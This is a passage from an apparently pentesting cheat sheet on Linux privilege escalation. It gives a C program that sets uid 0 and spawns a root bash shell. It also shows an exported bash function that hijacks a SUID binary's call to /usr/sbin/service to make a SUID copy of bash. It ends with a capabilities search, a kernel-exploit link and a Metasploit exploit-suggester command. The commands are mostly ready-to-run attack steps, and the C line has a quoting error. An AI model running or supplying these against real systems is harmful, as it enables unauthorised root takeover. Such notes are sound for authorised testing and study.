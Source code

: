 Let's create a malicious file:
```shell
echo "int main(){ setgid(0); setuid(0); system('/bin/bash'); return 0;}" > /tmp/service.c
```

Let's compile it:
```
gcc /tmp/service.c -o /tmp/service
```

Now, let's run our binary and the we get root!

###### Malicious function (when we have a service has a full path)

Other way is creating a malicious function (for example /usr/sbin/service):

```shell
function /usr/sbin/service() {cp /bin/bash /tmp/bashroot && chmod +s /tmp/bashroot && /tmp/bashroot -p;}
```

Now let's export it:
```
export -f /usr/sbin/service
```

Now, call your suid binary and you get a root!

#### Capabilities

Check for capabilities:
```
getcap -r / 2>/dev/null
```

#### Kernel Exploits

[lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)

##### Dirty Pipe

##### Polkit

# Metasploit

Privilege Escalation
```
search local_exploit_suggester
```
NOTE: Remember to use migrate to move the execution of the meterpreter payload.

# Exfiltration Data

## Windows
